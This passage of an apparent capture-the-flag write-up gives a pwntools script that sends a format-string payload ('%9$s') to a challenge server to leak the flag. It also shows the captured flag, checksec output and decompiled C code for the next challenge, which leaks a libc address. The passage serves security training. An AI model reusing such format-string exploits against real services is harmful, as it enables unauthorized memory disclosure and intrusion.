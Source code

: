 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("18.188.231.247", 2004)


def main():
    r = conn()

    # good luck pwning :)
    r.sendline("%9$s")
    print(re.search("(FLAG{.*})",r.recvall().decode('ascii')).group(1))



if __name__ == "__main__":
    main()
```

flag: `FLAG{f0rm47_57r1n6_l34k_69cd8e}`

## pwn6

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/format_string_write/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Like pwn4 we also get the libc binary that the server is using but the vulnerability is a little different.  

```c
void main(void)

{
  undefined4 uVar1;
  undefined4 uVar2;
  undefined *puVar3;
  
  puVar3 = &stack0x00000004;
  uVar2 = 0;
  uVar1 = 2;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Howdy!");
  printf("You might find this useful: %x\n",puts,uVar1,uVar2,puVar3);
  do {
    vuln();
  } while( true );
}

```
